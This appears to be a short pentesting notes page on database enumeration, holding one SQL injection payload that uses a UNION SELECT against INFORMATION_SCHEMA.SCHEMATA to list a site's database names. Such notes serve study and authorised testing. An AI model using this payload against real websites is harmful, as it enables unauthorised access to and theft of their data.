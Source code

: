# Database Enumeration





<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Information Schema

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

